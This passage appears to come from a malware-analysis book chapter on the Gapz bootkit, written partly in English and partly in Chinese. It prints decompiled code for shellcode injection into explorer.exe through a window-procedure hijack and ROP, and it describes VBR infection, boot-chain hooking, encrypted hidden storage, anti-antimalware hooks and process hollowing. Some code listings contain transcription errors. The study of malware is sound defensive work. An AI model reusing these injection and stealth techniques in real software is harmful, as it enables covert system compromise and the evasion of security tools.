2.  After writing the shellcode, search for the window `Shell_TrayWnd`. This window corresponds to the Windows taskbar. Gapz specifically targets this window because it is created and managed by `explorer.exe` and is highly likely to exist in the system.
3.  Call the Win32 API function `GetWindowLong` to obtain the address of the routine associated with the `Shell_TrayWnd` window handle.
4.  Call the Win32 API function `SetWindowLong` to modify the address of the routine associated with the `Shell_TrayWnd` window handle.
5.  Call `SendNotifyMessage` to trigger the execution of the shellcode in the `explorer.exe` address space.

Section objects are used to share portions of memory between processes; in other words, they are memory regions that can be shared among system processes. Listing 12-1 shows the section objects in `\\BaseNamedObjects` that Gapz checks in step 1. These section objects correspond to system sections—sections created by the operating system that contain system data. Gapz iterates through the list of section objects and opens them to check for existence. If a section object exists, the driver stops iterating and returns the handle to the respective section.

```c
char _stdcall OpenSection_(HANDLE *hSection, int pBase, int *pRegSize)
{
    sect_name = L"\\\\BaseNamedObjects\\\\ShimSharedMemory";
    v7 = L"\\\\BaseNamedObjects\\\\windows_shell_global_counters";
    v8 = L"\\\\BaseNamedObjects\\\\MSCTF.Shared.SFM.MIH";
    v9 = L"\\\\BaseNamedObjects\\\\MSCTF.Shared.SFM.AMF";
    v10 = L"\\\\BaseNamedObjectsUrlZonesSM_Administrator";
    i = 0;
    while ( OpenSection(hSection, (&sect_name)[i], pBase, pRegSize) < 0 )
    {
        if ( ++i >= 5 )
            return 0;
    }
    if ( VirtualQuery(*pBase, &Buffer, 0x1Cu) )
        *pRegSize = v7;
    return 1;
}
```

*Listing 12-1: Object names used in the Gapz driver*

After opening an existing section, the malware injects its code into the `explorer.exe` process, as shown in Listing 12-2.

```c
char __cdecl InjectIntoExplorer()
{
    returnValue = 0;
    if ( OpenSectionObject(&hSection, &SectionBase, &SectSize) )  // Open a SHIM section
    {
        // Find free space at the end of the section
        TargetBuffer = (SectionBase + SectSize - 0x150);
        memset(TargetBuffer, 0, 0x150u);
        qmemcpy(TargetBuffer->code, sub_408468, sizeof(TargetBuffer->code));
        hKernel32 = GetModuleHandleA("kernel32.dll");
        TargetBuffer->CloseHandle = GetExport(hKernel32, "CloseHandle", 0);
        TargetBuffer->MapViewOfFile = GetExport(hKernel32, "MapViewOfFile", 0);
        TargetBuffer->OpenFileMappingA = GetExport(hKernel32, "OpenFileMappingA", 0);
        TargetBuffer->CreateThread = GetExport(hKernel32, "CreateThread", 0);
        hUser32 = GetModuleHandleA("user32.dll");
        TargetBuffer->SetWindowLongA = GetExport(hUser32, "SetWindowLongA", 0);
        TargetBuffer_ = ConstructTargetBuffer(TargetBuffer);
        if ( TargetBuffer_ )
        {
            hWnd = FindWindowA("Shell_TrayWnd", 0);
            originalWinProc = GetWindowLongA(hWnd, 0);
            if ( hWnd && originalWinProc )
            {
                TargetBuffer->MappingName[10] = 0;
                TargetBuffer->Shell_TrayWnd = hWnd;
                TargetBuffer->Shell_TrayWnd_Long_0 = originalWinProc;
                TargetBuffer->icmnf = GetExport(CurrentImageAllocBase, "icmnf", 1);
                qmemcpy(&TargetBuffer->field07, &MappingSize, 0xCu);
                TargetBuffer->gpi = GetExport(CurrentImageAllocBase, "gpi", 1);
                BotId = InitBid();
                lstrcpynA(TargetBuffer->MappingName, BotId, 10);
                if ( CopyToFileMappingAndReloc(TargetBuffer->MappingName, CurrentImageAllocBase,
                                                CurrentImageSizeOfImage, &hObject) )
                {
                    BotEvent = CreateBotEvent();
                    if ( BotEvent )
                    {
                        SetWindowLongA(hWnd, 0, &TargetBuffer_->pKiUserApcDispatcher);
                        SendNotifyMessageA(hWnd, 0xFu, 0, 0);
                        if ( !WaitForSingleObject(BotEvent, 0xBB80u) )
                            returnValue = 1;
                    }
                    CloseHandle(BotEvent);
                }
                CloseHandle(hObject);
            }
        }
        NtUnmapViewOfSection(-1, SectionBase);
        NtClose(hSection);
    }
    return returnValue;
}
```

*Listing 12-2: Gapz driver injecting code into `explorer.exe`*

The malware uses 336 (0x150) bytes of space at the end of the section to write the shellcode (1). To ensure the shellcode executes correctly, the malware also supplies the addresses of several APIs used during the injection: `CloseHandle`, `MapViewOfFile`, `OpenFileMappingA`, `CreateThread`, and `SetWindowLongA` (2). The shellcode uses these routines to load the Gapz driver into the `explorer.exe` memory space.

Gapz executes the shellcode using **return-oriented programming (ROP)**. ROP leverages the property of the `ret` instruction in x86 and x64 architectures—`ret` pops the return address from the top of the stack and transfers control to that address. By executing `ret` to gain control of the stack, an attacker can execute code at arbitrary locations.

The reason Gapz uses ROP to execute the shellcode is that the shared section object’s memory may not be executable; executing instructions directly there would trigger an exception. To bypass this restriction, the malware first executes a small ROP program that allocates executable memory in the target process, copies the shellcode to that buffer, and executes it there.

Gapz looks for the gadget used to trigger the shellcode in `ConstructTargetBuffer` (3). On 32-bit systems, Gapz uses the system routine `ntdll!KiUserApcDispatcher` to transfer control to the ROP program.

#### Modifying the Shell_TrayWnd Procedure

After writing the shellcode and finding all the necessary ROP gadgets, the malware proceeds to the next step: modifying the `Shell_TrayWnd` window procedure. This procedure is responsible for handling all events and messages sent to the window by the system (such as window resizing, button clicks, etc.). The system specifies the address of the window procedure when the window is created.

The Gapz driver obtains the original window procedure address by executing `GetWindowLongA` (4) so it can be restored after injection. This function takes two arguments: the window handle and the index of the value to retrieve. Gapz calls this function with index 0, which signifies retrieving the address of the original `Shell_TrayWnd` window procedure. The malware stores this value in a memory buffer to restore it after injection.

Subsequently, the malware executes `SetWindowLongA` (5) to modify the `Shell_TrayWnd` window procedure address to the address of the system routine `ntdll!KiUserApcDispatcher`. By redirecting to an address inside a system module rather than the shellcode itself, Gapz further evades detection by security software. At this point, the shellcode is ready to execute.

#### Executing the Shellcode

Gapz triggers the execution of the shellcode by calling the `SendNotifyMessageA` API, sending a message to the `Shell_TrayWnd` window to hand over control to the window procedure. As explained in the previous section, after modifying the window procedure address, the new address points to the `KiUserApcDispatcher` routine. This ultimately results in the transfer of control to the shellcode mapped in the `explorer.exe` process address space, as shown in Listing 12-3.

```cpp
```


int __stdcall ShellCode(int a1, STRUCT_86_INJECT *a2, int a3, int a4)  
{  
    if ( !BYTE2(a2->injected) )  
    {  
        BYTE2(a2->injected) = 1;  
        hFileMapping = (a2->call_OpenFileMapping)(38, 0, &a2->field4);  
        if ( hFileMapping )  
        {  
            ImageBase = (a2->call_MapViewOfFile)(hFileMapping, 38, 0, 0, 0);  
            if ( ImageBase )  
            {  
                qmemcpy((ImageBase + a2->bytes_5), &a2->field0, 0xCu);  
                (a2->call_CreateThread)(0, 0, ImageBase + a2->routineOffs, ImageBase, 0, 0);  
            }  
            (a2->call_CloseHandle)( hFileMapping );  
        }  
    }  
    (a2->call_SetWindowLongA)(a2->hWnd, 0, a2->OriginalWindowProc);  
    return 0;  
}

Listing 12-3: 将 Gapz 加载器映像映射到 `explorer.exe` 进程地址空间

可以看到使用了 `OpenFileMapping`、`MapViewOfFile`、`CreateThread` 和 `CloseHandle` 等 API，这些函数的地址在之前的 Listing 12-2 中已填充（➋）。通过这些函数，shellcode 将对应于加载器的文件映射视图映射到 `explorer.exe` 进程地址空间（➊ 和 ➋）。随后创建一个线程 ➌ 在 `explorer.exe` 进程中执行映射的映像，并恢复 `SetWindowLongA` WinAPI 函数 ➍ 修改的原始索引值。新创建的线程运行加载器的下一部分，提升权限。一旦加载器获得足够权限，就会尝试感染系统，此时引导根套件（bootkit）功能启动。

## THE POWER LOADER INFLUENCE

这里描述的注入技术并非 Gapz 开发者的原创；它早前已出现在 Power Loader 恶意软件创建工具中。Power Loader 是一种专用的 Bot 创建器，用于生成其他恶意软件家族的下载器，是恶意软件生产中专业化和模块化的又一典型例子。Power Loader 首次在野外被发现的时间是 2012 年 9 月。自 2012 年 11 月起，名为 Win32/Redyms 的恶意软件开始在自己的加载器中使用 Power Loader 组件。截至本文撰写时，Power Loader 包（包括一个包含 C&C 面板的构建套件）在俄罗斯地下市场上的价格约为 500 美元。

### 使用 Gapz Bootkit 感染系统

Gapz 采用了两种不同的感染技术：一种针对可启动硬盘的 MBR，另一种针对活动分区的 VBR。两种版本的 bootkit 功能基本相同。MBR 版本通过类似 TDL4 bootkit 的方式修改 MBR 代码以实现持久化。VBR 版本则采用更隐蔽、更隐蔽的手段感染系统，正如前文所述，这里我们将重点关注此版本。

我们在 第 7 章 中简要提及了 Gapz bootkit 技术，现在我们将深入说明其实现细节。Gapz 使用的感染方法是目前野外看到的最隐蔽的方式之一，仅修改了 VBR 中少量字节，使得安全软件难以检测。

#### 回顾 BIOS 参数块

恶意软件的主要目标是位于 VBR（引导加载区）中的 BIOS 参数块（BPB）数据结构（详见 第 5 章 了解更多）。该结构包含关于分区上文件系统卷的信息，在引导过程中起着关键作用。虽然 BPB 的布局因文件系统（FAT、NTFS 等）而异，但本文将专注于 NTFS。NTFS 版 BPB 的结构在 Listing 12-4 中给出（为方便，摘自 Listing 5-3）。

```cpp
typedef struct _BIOS_PARAMETER_BLOCK_NTFS {  
    WORD SectorSize;  
    BYTE SectorsPerCluster;  
    WORD ReservedSectors;  
    BYTE Reserved[5];  
    BYTE MediaId;  
    BYTE Reserved2[2];  
    WORD SectorsPerTrack;  
    WORD NumberOfHeads;  
    DWORD HiddenSectors;  
    BYTE Reserved3[8];  
    QWORD NumberOfSectors;  
    QWORD MFTStartingCluster;  
    QWORD MFTMirrorStartingCluster;  
    BYTE ClusterPerFileRecord;  
    BYTE Reserved4[3];  
    BYTE ClusterPerIndexBuffer;  
    BYTE Reserved5[3];  
    QWORD NTFSSerial;  
    BYTE Reserved6[4];  
} BIOS_PARAMETER_BLOCK_NTFS, *PBIOS_PARAMETER_BLOCK_NTFS;
```


*Listing 12-4: NTFS 的 BIOS_PARAMETER_BLOCK 布局*

正如第 5 章所回顾的，`HiddenSectors` 字段 ➊（结构起始偏移 14 处）决定了 IPL（引导程序加载）在硬盘上的位置（参见 Figure 12-3）。VBR 代码使用 `HiddenSectors` 找到 IPL 并执行它。


*Figure 12-3: 硬盘上 IPL 的位置*

#### VBR 感染过程

Gapz 在系统启动时通过修改 BPB 中的 `HiddenSectors` 字段值来劫持控制流。感染时，Gapz 在硬盘最前面（如果有足够空间）或在最后一个分区之后写入 bootkit 主体，并将 `HiddenSectors` 字段改为指向硬盘上根套件主体的起始位置，而不是指向原始的 IPL 代码（参见 Figure 12-4）。因此，下一次启动时，VBR 代码会加载并执行硬盘末端的 Gapz bootkit 代码。


*Figure 12-4: Gapz bootkit 感染布局*

这种技术的魅力在于它只修改了 VBR 数据的 4 个字节，远少于其他 bootkits。例如，TDL4 修改 446 字节的 MBR 代码；Olmasco 修改 MBR 分区表中的一个条目（16 字节）；Rovnix 修改占 7,680 字节（15 个扇区）的 IPL 代码。

Gapz 于 2012 年出现，当时安全行业已跟上现代 bootkit 的步伐，MBR、VBR 以及 IPL 代码的监控已成为常规做法。然而，通过修改 BPB 的 `HiddenSectors` 字段，Gapz 将 bootkit 感染技术更进一步，使安全行业难以跟进。在此之前，安全软件很少检查 BPB 字段的异常。Gapz 的新方法迫使安全行业花费时间才能识别其创新的感染手段并开发相应的防御措施。

另一项让 Gapz 脱颖而出的是，`HiddenSectors` 字段的内容并非固定的，而是随 BPB 结构而异，取决于硬盘的分区方案。该字段的值主要取决于硬盘的分区结构。一般而言，仅凭 `HiddenSectors` 的值无法判断系统是否被感染，必须对硬盘实际内容在相应偏移处的代码进行更深入的分析。

Figure 12-5 展示了一个真实 Gapz 感染系统的 VBR 内容。BPB 位于偏移 11 处，`HiddenSectors` 字段的值为 `0x00000800`，已被高亮显示。


*Figure 12-5: 感染系统中的 `HiddenSectors` 值*

要检测 Gapz，安全软件必须分析硬盘起始处偏移 `0x00000800` 处的数据，这里正是恶意引导加载器所在的位置。

#### 加载恶意内核模式驱动

与许多现代引导程序一样，Gapz 引导程序的主要目的是通过将恶意代码加载到内核模式地址空间来妥协操作系统。一旦 Gapz 引导程序代码获得控制权，它就会按照前面章节所述的常规流程对系统引导组件进行修补。

执行后，引导程序代码会钩选 INT 13h 处理程序，以监控硬盘读取的数据。随后它会从硬盘加载原始 IPL 代码并执行，以恢复引导过程。图 12-6（<a href="https://example.org/ch12.xhtml#ch12fig06">链接</a>）展示了受 Gapz 影响的系统的引导过程。

在钩选 INT 13h ➊ 之后，恶意代码会监控硬盘读取的数据，并寻找 `bootmgr` 模块，该模块会在内存中进行修补，以钩选 `Archx86TransferTo32BitApplicationAsm` 例程（在 x64 Windows 平台上对应 `Archx86TransferTo64BitApplicationAsm`）。该例程负责将控制权从 `bootmgr` 转移到 `winload.exe` 的入口点。钩选用于修补 `winload.exe` 模块。一旦 `bootmgr` 的钩选被触发，`winload.exe` 已经在内存中，恶意代码即可对其进行修补。引导程序会钩选 `winload.exe` 模块中的 `OslArchTransferToKernel` 例程 ➌。

如前面章节讨论过，Rovnix 也从钩选 INT 13h 处理程序、修补 `bootmgr`、钩选 `OslArchTransferToKernel` 开始。但与 Gapz 不同，Rovnix 在下一步会通过修补内核 `KiSystemStartup` 例程来妥协内核。


*Figure 12-6: 引导程序的工作流程*

相反地，Gapz 会钩选内核映像中的另一个例程：`IoInitSystem` ➍。该例程的作用是完成内核初始化，初始化不同的操作系统子系统并调用引导启动驱动的入口。一旦 `IoInitSystem` 执行，恶意钩选会被触发，恢复 `IoInitSystem` 例程已修补的字节，并将 `IoInitSystem` 的返回地址在栈上覆盖为指向恶意代码的地址。Gapz 引导程序随后将控制权交还给 `IoInitSystem` 例程。

在例程执行完成后，控制权会转回恶意代码。`IoInitSystem` 执行完毕后，内核得到正确初始化，引导程序即可利用其提供的服务访问硬盘、分配内存、创建线程等。随后，恶意代码从硬盘读取剩余的引导程序代码，创建系统线程，最后返回控制权给内核。一旦恶意内核模式代码在内核地址空间中执行完毕，引导程序的任务便告完成 ➎。

**规避安全软件检测**

在引导过程的最早阶段，Gapz 会从受感染的 VBR（卷引导记录）中移除引导程序感染痕迹；在其内核模块执行期间再恢复感染痕迹。一个可能的解释是，某些安全产品在启动时会进行系统检查，因此 Gapz 在启动时先从 VBR 中清除感染证据，从而避免被检测到。

### Gapz 根程序功能

本节将聚焦于 Gapz 的根程序功能，这是 Gapz 之后最有趣的方面。我们称 Gapz 根程序功能为内核模式模块，因为它并不是合法的内核模式驱动，意义上不是 PE 映像。相反，它以位置无关代码（PIC）的形式组织，由若干块组成，每块实现特定的恶意功能以完成特定任务。内核模式模块的目的是在系统进程中隐蔽、静默地注入 payload。

Gapz 内核模式模块最引人注目的是它实现了一个自定义的 TCP/IP 网络栈用于与 C&C 服务器通信；它使用一个加密库，内置了 `RC4`、`MD5`、`SHA1`、`AES` 和 `BASE64` 等自定义加密原语，以保护配置数据和 C&C 通信通道。正如任何复杂威胁一样，它还实现了隐藏存储，用于秘密存储其用户模式 payload 和配置信息。Gapz 还包含一个强大的钩选引擎，内置 disassembler，用于设置持久且隐蔽的钩选。在本节余下部分，我们将详细探讨这些以及更多内核模式模块的特性。

Gapz 内核模式模块并非传统的 PE 映像，而是由一组使用 *位置无关代码（PIC）* 的块组成，这些代码不使用绝对地址来引用数据。因此，其内存缓冲区可以位于进程地址空间的任意合法虚拟地址。每个块都有特定用途。每个块前都有一个描述其大小和在模块中位置的头部，以及用于计算块内实现例程地址的常量。头部结构如 Listing 12-5 所示。

```c
struct GAPZ_BASIC_BLOCK_HEADER
{
    // 用于获取块中实现的例程地址的常量
    unsigned int ProcBase;
    unsigned int Reserved[2];
    // 下一个块的偏移
    ➋ unsigned int NextBlockOffset;
    // 块初始化例程的偏移
    ➌ unsigned int BlockInitialization;
    // 从模块末尾到配置信息的偏移
    // 仅在第一块有效
    unsigned int CfgOffset;
    // 设置为零
    unsigned int Reserved1[2];
}
```

*Listing 12-5: Gapz 内核模式模块块头*

头部以整数常量 `ProcBase` ➊ 开头，用于计算块中实现的例程地址。`NextBlockOffset` ➋ 指示模块内下一个块的偏移，使 Gapz 能够遍历内核模式模块的所有块。`BlockInitialization` ➌ 包含块起始到块初始化例程的偏移，该例程在内核模式模块初始化时执行，用于初始化该块特有的数据结构，必须在块中实现的其他函数之前执行。

Gapz 使用一个全局结构体保存所有与其内核代码相关的数据：实现例程的地址、分配缓冲区的指针等。该结构体使 Gapz 能够确定位置无关代码块中实现的所有例程地址，然后执行它们。

位置无关代码通过十六进制常量 `0xBBBBBBBB`（用于 x86 模块）来引用全局结构体。在恶意内核代码开始执行时，Gapz 会分配一段内存缓冲区用于全局结构体。随后，它会使用 `BlockInitialization` 例程遍历每个块的代码，并将指向全局结构体的指针替换每一次出现的 `0xBBBBBBBB`。

Listing 12-6 展示了内核模式模块中实现的 `OpenRegKey` 例程的反汇编，同样，`0xBBBBBBBB` 常量用于指代全局上下文，但在执行期间该常量会被实际内存地址替换，以确保代码正确运行。

```c
int __stdcall OpenRegKey(PHANDLE hKey, PUNICODE_STRING Name)
{
    OBJECT_ATTRIBUTES obj_attr; // [esp+Oh] (ebp-1Ch)@1
    int _global_ptr; // [esp+18h] (ebp-4h)@1
    global ptr = 0xBBBBBBBB;
    obj_attr.ObjectName = Name;
    obj_attr.RootDirectory = 0;
    obj_attr.SecurityDescriptor = 0;
    obj_attr.SecurityQualityOfService = 0;
    obj_attr.Length = 24;
    obj_attr.Attributes = 576;
    return (MEMORY[0xBBBBBB] ->ZwOpenKey)(hKey, 0x20019 &ob attr);
}
```

*Listing 12-6: 使用全局上下文的 Gapz 内核模式代码*

在总体上，Gapz 在内核模式模块中实现了 12 个代码块，列在 Table 12-2。最后一个块实现了内核模式模块的主例程，该例程启动模块的执行、初始化其他代码块、设置钩子并启动与 C&C 服务器的通信。

# Table 12-2: Gapz Kernel-Mode Code Blocks

| Block number | Implemented functionality |
|---|---|
| 1 | 通用 API，硬盘信息收集，CRT 字符串例程等 |
| 2 | 加密库：`RC4`、`MD5`、`SHA1`、`AES`、`BASE64` 等 |
| 3 | 钩子引擎，反汇编引擎 |
| 4 | 隐藏存储实现 |
| 5 | 硬盘驱动钩子，自保护 |
| 6 | 载荷管理器 |
| 7 | 将载荷注入进用户态进程的地址空间 |
| 8 | 网络通信：数据链路层 |
| 9 | 网络通信：传输层 |
| 10 | 网络通信：协议层 |
| 11 | 载荷通信接口 |
| 12 | 主例程 |

### 隐藏存储

与大多数引导根套件（bootkits）一样，Gapz 实现隐藏存储以安全存储其载荷和配置信息。隐藏文件系统的映像位于硬盘上的文件 `\\??\\C:\\System Volume Information\\<XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX>`，其中 *X* 表示根据配置信息生成的十六进制数字。隐藏存储的布局是 FAT32 文件系统。Figure 12-7 展示了 `\\usr\\overlord` 隐藏存储目录内容的示例。你可以看到该目录中存放了三个文件：`overlord32.dll`、`overlord64.dll` 和 `conf.z`。前两个文件对应要注入系统进程的用户态载荷，第三个文件 `conf.z` 包含配置数据。


*Figure 12-7: Contents of the hidden storage `\\usr\\overlord` directory*

为了保持隐藏文件系统内部信息的秘密，其内容被加密，如 Listing 12-7 所示。

```c
int stdcall aes_crypt_sectors_cbc(int 1V, int c_text, int p_text, int num_of_sector,
                                  int bEncrypt, STRUCT_AES_KEY *Key)
{
    int result; // eax01
    int _iv; // edi02
    int cbc_iv[4]; // [esp+0h] [ebp-14h)@3
    STRUCT_IPL_THREAD_1 *gl_struct; // [esp+10h] [ebp-4h}@1
    gl_struct = 0xBBBBBBBB;
    result = num_of_sector;
    if ( num_of_sector )
    {
        ➊ _iv = IV;
        do
        {
            cbc_iv[3] = 0;
            cbc_iv[2] = 0;
            cbc_iv[1] = 0;
            cbc_iv[0] = _iv; // CBC initialization value
            result = (gl_struct->crypto->aes_crypt_cbc)(Key, bEncrypt, 512, cbc_iv,
                                                        p_text, c_text);
            p_text += 512; // plain text
            c_text += 512; // ciper text
            ➋ ++_iv;
            --num_of_sector;
        }
        while( num_of_sector );
    }
    return result;
}
```

*Listing 12-7: Encryption of sectors in the hidden storage*

为隐藏存储的每个扇区加密和解密，Gapz 使用自定义的高级加密标准（AES）算法实现，密钥长度为 256 位，工作在密码块链（CBC）模式。Gapz 使用第一个被加密或解密的扇区（➊ 标记的扇区号）作为 CBC 模式的初始化向量（IV），如 Listing 12-7 所示。随后，后续每个扇区的 IV 都递增 1（➋）。即使同一密钥用于硬盘上所有扇区的加密，使用不同的 IV 会导致每个扇区的密文不同。

#### 防反恶意软件（Self-Defense Against Antimalware Software）

为防止被系统删除，Gapz 在硬盘微型驱动程序（miniport driver）上钩住两个例程：`IRP_MJ_INTERNAL_DEVICE_CONTROL` 和 `IRP_MJ_DEVICE_CONTROL`。钩子仅关注以下请求。

* `IOCTL_SCSI_PASS_THROUGH`
* `IOCTL_SCSI_PASS_THROUGH_DIRECT`
* `IOCTL_ATA_PASS_THROUGH`
* `IOCTL_ATA_PASS_THROUGH_DIRECT`

这些钩子保护受感染的 VBR（Volume Boot Record）或 MBR（Master Boot Record）以及硬盘上的 Gapz 映像不被读取或覆盖。

与 TDL4、Olmasco 和 Rovnix 不同，后者会覆盖 `DRIVER_OBJECT` 结构体中处理程序指针的指针，Gapz 使用“拼接”（splicing）技术：即直接修改目标代码本身。在 Listing 12-8 中，你可以看到针对 `scsiport.sys` 驱动程序映像在内存中的钩子例程。此例中，`scsiport.sys` 是一块磁盘微型驱动程序，负责处理 `IOCTL_SCSI_XXX` 与 `IOCTL_ATA_XXX` 请求，是 Gapz 钩子的主要目标。

```
SCSIPORTncsiPortGlobalDispatch:
f84ce44c 8bff                   mov     edi,edi
➊ f84ce44e e902180307           jmp     ff4ffc55
f84ce453 088b42288b40           or      byte ptr [ebx+408B2842h],c1
f84ce459 1456                   adc     a1,56h
f84ce45b 8b750c                 mov     esi,dword ptr [ebp+0Ch]
f84ce45e 8b4e60                 mov     ecx,dword ptr [esi+60h]
f84ce461 0fb609                 movzx   ecx,byte ptr [ecx]
f84ce465 52                     push    edx
f84ce466 ff1488                 call    dword ptr [eax+ecx*4]
f84ce469 5e                     pop     esi
f84ce46a 5d                     pop     ebp
f84ce46b c20800                 ret     8
```

*Listing 12-8: Hook of the scsiport!ScsiPortGlobalDispatch routine*

请注意，Gapz 并未在钩子例程的最开头（`0xf84ce44c`）➊ 处修补代码，这与其他恶意软件常见的做法不同。在 Listing 12-9 中可以看到，它跳过被钩例程开头的若干条指令（例如 nop 和 `mov edi, edi`）。

这可能是为了提高内核模块的稳定性和隐蔽性。某些安全软件仅检查前几个字节是否被修改，以检测被补丁或被钩子的例程；因此，跳过最初的几条指令可以让 Gapz 绕过这些检测。

跳过被钩例程的前几条指令也可以防止 Gapz 破坏已经在合法例程上放置的钩子。例如，在“热补丁”（hot‑patchable）可执行映像中，编译器会在函数开头插入 `mov edi, edi` 指令（如 Listing 12-8 所示），这条指令是操作系统可能设置的合法钩子占位符。跳过该指令可确保 Gapz 不会破坏操作系统的代码补丁能力。

Listing 12-9 中的代码片段展示了钩子例程如何分析目标例程的指令，以确定最佳钩设位置。它检查操作码 `0x90`（对应 nop）和 `0x8B`/`0x89`（对应 `mov edi, edi`）是否出现在被钩例程的开头，这些指令可能表明目标例程属于热补丁映像，因而可能被操作系统进行补丁。于是，恶意软件会在放置钩子时跳过这些指令。

```c
for ( patch_offset = code_to_patch; ; patch_offset += instr.len )
{
    (v42->proc_buff_3->disasm)(patch_offset, &instr);
    if ( (instr.len != 1 || instr.opcode != 0x90u)
         && (instr.len != 2 || instr.opcode != 0x89u &&
             instr.opcode != 0x8Bu || instr.modrm_rm != instr.modrm_reg) )
    {
        break;
    }
}
```

*Listing 12-9: Gapz using a disassembler to skip the first bytes of hooked routines*

为进行此分析，Gapz 实现了 `hacker disassembler engine`，该引擎适用于 `x86` 和 `x64` 平台。这使得恶意软件不仅能获取指令的长度，还能获取其他特征，如指令的操作码及其操作数。

# HACKER DISASSEMBLER ENGINE

`hacker disassembler engine` (HDE) 是一个体积小、简单易用的 disassembler engine，用于 `x86` 和 `x64` 代码分析。它提供命令的长度、操作码以及其他指令参数（如 ModR/M 和 SIB 前缀）。HDE 常被恶意软件用于解码例程的前置部分，以设置恶意钩子（如前文所述），或检测并移除安全软件安装的钩子。

## Payload Injection

Gapz 核心模块将 payload 注入用户模式地址空间的过程如下：

1. 读取配置信息，确定应将哪些 payload 模块注入特定进程，然后从隐藏存储中读取这些模块。
2. 在目标进程的地址空间中分配一个内存缓冲区，用于保存 payload 映像。
3. 在目标进程中创建并运行线程以执行加载代码；该线程映射 payload 映像、初始化 IAT 并修复重定位。

`\\sys` 目录下的隐藏文件系统中的配置文件指定了应注入特定进程的 payload 模块。配置文件名经由隐藏文件系统的 AES 加密密钥通过 SHA1 哈希算法派生。配置文件包含一个头部和若干条目，每条记录描述一个目标进程，如 Figure 12-8 所示。


*Figure 12-8: Layout of the configuration file for payload injection*

每个进程条目结构如 Listing 12-10 所示。

```c


### 结构体 `GAPZ_PAYLOAD_CFG`

```c
struct GAPZ_PAYLOAD_CFG
{
    // 隐藏存储中 payload 模块的完整路径
    char PayloadPath[128];

    // 目标进程的名称
    char TargetProcess[64];

    // 指定加载选项：x86 或 x64 等
    unsigned char LoadOptions;

    // 保留字段
    unsigned char Reserved[2];

    // payload 类型：overlord 或其他
    unsigned char PayloadType;
}
```


*Listing 12-10: Layout of a payload configuration entry in the configuration file*

`TargetProcess` 字段 ➊ 包含要注入 payload 的进程名称。`LoadOptions` 字段 ➋ 指示 payload 模块是 32 位还是 64 位图像，取决于受感染系统。`PayloadType` 字段 ➌ 表示要注入的模块是 “overlord” 模块还是其他 payload。

`overlord32.dll`（64 位进程为 `overlord64.dll`）被注入到系统中的 `svchost.exe` 进程。`overlord32.dll` 模块的作用是执行恶意内核代码发出的 Gapz 命令。这些命令可能执行以下任务：

- 收集系统中所有网络适配器及其属性的信息。
- 收集特定软件是否存在的信息。
- 通过尝试访问 `http://www.update.microsoft.com` 检查 internet 连接。
- 使用 Windows 套接字发送和接收数据。
- 从 `http://www.time.windows.com` 获取系统时间。
- 给定域名时通过 Win32 API `gethostbyname` 获取主机 IP 地址。
- 查询注册表键 `Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon` 的 “shell” 值来获取 Windows shell。

这些命令的结果随后回传到内核模式。Figure 12-9 展示了从受感染系统的隐藏存储中提取的配置信息示例。


*Figure 12-9: An example of a payload configuration file*

可以看到两个模块 — `overlord32.dll` 和 `overlord64.dll` — 分别用于 x86 和 x64 系统的 `svchost.exe` 进程注入。

一旦确定 payload 模块和目标进程，Gapz 在目标进程地址空间中分配内存缓冲区并将 payload 模块复制进去。随后，恶意软件在目标进程中创建线程执行加载代码。如果操作系统是 Windows Vista 或更高版本，Gapz 可以直接调用系统例程 `NtCreateThreadEx` 创建新线程。

在 Vista 之前的操作系统（如 Windows XP 或 Server 2003），情况更为复杂，因为 `NtCreateThreadEx` 例程未由 OS 内核导出。此时，Gapz 在内核模块中重新实现部分 `NtCreateThreadEx` 功能，并遵循以下步骤：

1. 手动分配用于新线程的堆栈。
2. 初始化线程的上下文和线程环境块（TEB）。
3. 通过未文档化的例程 `NtCreateThread` 创建线程结构。
4. 如有必要，在客户端/服务器运行时子系统（CSRSS）中注册新创建的线程。
5. 执行新线程。

加载代码负责将 payload 映射到进程地址空间，并在用户模式下执行。根据 payload 类型，加载代码有不同实现，如 Figure 12-10 所示。对于实现为 DLL 库的 payload 模块，有两个加载器：DLL 加载器和命令执行器。对于实现为 EXE 模块的 payload，也有两个加载器。


*Figure 12-10: Gapz injection capabilities*

我们现在逐一查看每个加载器。

### DLL Loader Code

Gapz DLL 加载例程负责加载和卸载 DLL。它将可执行映像映射到目标进程的用户模式地址空间，初始化其 IAT、修复重定位，并在以下两种情况下执行导出例程：

**导出例程 #1（加载 payload）** — 初始化已加载的 payload

**导出例程 #2（卸载 payload）** — 卸载已加载的 payload

Figure 12-11 展示了 payload 模块 `overlord32.dll`。


*Figure 12-11: Export address table of the Gapz payload*

Figure 12-12 说明了例行过程。卸载 payload 时，Gapz 执行导出例程 #2 并释放用于保存 payload 映像的内存。加载 payload 时，Gapz 完成所有必要步骤以将映像映射到进程地址空间，然后执行导出例程 #1。


*Figure 12-12: Gapz DLL payload-loading algorithm*

### Command Executer Code

命令执行器例程负责按加载的 payload 模块指示执行命令。该例程仅调用 payload 的导出例程 #3（Figure 12-11），并向其传递所有必要参数。

### EXE Loader Code

剩余的两个加载器用于在受感染系统中运行已下载的可执行文件。第一种实现从 `TEMP` 目录运行可执行 payload：将图像保存到 `TEMP` 目录后，调用 `CreateProcess` API，如 Figure 12-13 所示。


*Figure 12-13: Gapz EXE payload-running algorithm via CreateProcess*

第二种实现通过创建挂起的合法进程，然后用恶意图像覆盖合法进程图像，最后恢复进程，如 Figure 12-14 所示。


*Figure 12-14: Gapz EXE payload-running algorithm via CreateProcessAsUser*

The second method of loading the executable payload is stealthier and less prone to detection than the first. While the first method simply runs the payload without any precautions, the second method creates a process with a legitimate executable first and only then replaces the original image with the malicious payload. This may trick the security software into allowing the payload to execute.

#### `Payload Communication Interface`

In order to communicate with the injected payload, Gapz implements a specific interface in quite an unusual way: by impersonating the handler of the payload requests in the `null.sys` driver. This technique is shown in Figure 12-15.


*Figure 12-15: Gapz payload interface architecture*

The malware first sets the DriverUnload field ➊ of the DRIVER_OBJECT structure corresponding to the `\\Device\\Null` device object to 0 (storing a pointer to the handler that will be executed when the OS unloads the driver) and hooks the original DriverUnload routine. Then it overwrites the address of the IRP_MJ_DEVICE_CONTROL handler in the DRIVER_OBJECT with the address of the hooked DriverUnload routine ➋.

The hook checks the parameters of the IRP_MJ_DEVICE_CONTROL request to determine whether the request was initiated by the payload. If so, the payload interface handler is called instead of the original IRP_MJ_DEVICE_CONTROL handler ➌.

**DRIVER UNLOAD ROUTINE**

